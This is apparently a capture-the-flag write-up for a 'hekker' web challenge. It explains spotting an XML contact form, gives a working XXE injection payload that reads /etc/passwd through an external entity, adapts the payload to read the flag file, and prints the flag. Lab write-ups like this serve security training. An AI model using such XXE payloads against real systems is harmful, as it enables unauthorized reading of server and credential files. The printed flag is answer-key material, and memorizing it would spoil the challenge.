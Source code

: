 Visit the website https://hekker.noobarmy.org/. There is only a contact form through which we can send data to backend. Fill the form and send the request to the server and see the request and response in Firefox Developers tool or for the simplicity you can use any proxy tool. e.g BurpSuite

As the request sent to server is in xml format so there could be a possibility of XXE Injection.

You can manually craft a payload or use this one:
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE contact [<!ENTITY test SYSTEM'file:///etc/passwd'>]><contact><name>devil</name><email>test@devil.com</email><subject>asd</subject><message>&test;</message></contact>
```

This payload will fetch content of /etc/passwd file. Now since the payload is working, replace this file path in above payloadwith “file:///home/hekker/flag.txt” to get flag.

Flag: ```vulncon{MR_H4kk3r_w1th_XXE_(+_+)}```
